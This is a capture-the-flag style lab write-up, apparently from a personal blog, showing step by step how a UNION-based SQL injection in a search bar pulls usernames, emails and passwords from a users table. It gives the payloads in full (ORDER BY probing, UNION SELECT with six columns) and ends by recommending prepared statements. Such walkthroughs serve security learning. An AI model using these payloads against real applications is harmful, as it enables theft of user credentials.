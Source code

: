 ```yaml
---
title: "[Vulnlab] SQL Injection - Find the passwords"
date: 2025-03-13 15:00:00 -500 
categories: [Vulnlab, SQL Injection - Login]
tags: [soc,redteam,sqli,docker,vulnlab]
author: Christoph K
---
```


# Situation:

We have a list of users and a `search bar` where we can input our `SQLi`. We also have access to the `PHP source code`.

![Login](assets/img/vulnlab/sqli/passwords/01.png)

Our mission - `passwords`


## Find out columns

First, I would start by finding out how many columns this table has. This is important because the `password` column might be present but hidden.

We can do this by incrementally increasing the `ORDER BY` value until we get an error:

`' ORDER BY 1 --  `
`' ORDER BY 2 --  `


We continue this process until an error occurs, indicating the table does not have that many columns. In this case, we can go up to `6`.




## Using `UNION` to merge tables

Now that we know the columns, we can try to merge the tables with following command:

`' UNION SELECT 1,2,3,4,5,6 FROM users -- `

The whole `SQL`statement could look like that:

```sql
SELECT id, username, email, name, surname FROM users WHERE username = '' 
UNION SELECT 1,2,3,4,5,6 FROM users -- '
```

![passwords](assets/img/vulnlab/sqli/passwords/02.png)




## Getting the `passwords` column into the table


Now that we know the number of columns and are able to merge the correct number of columns into our table, we need to display the `passwords` column.

We can try it like that:


`' UNION SELECT 1,2,3,password,5,6 FROM users -- `


Which number we replace does not matter, it will just replace the column like in the picture before.

It should be like that now:


![passwords](assets/img/vulnlab/sqli/passwords/03.png)



## Make it pretty


Now that we have the passwords attached to our original table, we can make it prettier. We move the `username` column to number 2 and `mail` to 3. 

```sql

' UNION SELECT 1,username,email,4,password,6 FROM users -- 
```

![passwords](assets/img/vulnlab/sqli/passwords/04.png)


# Conclusion:

By leveraging SQL Injection, we successfully extracted the passwords column from the database. This demonstrates why user input should always be sanitized and why using prepared statements or ORM frameworks can help prevent SQLi vulnerabilities.


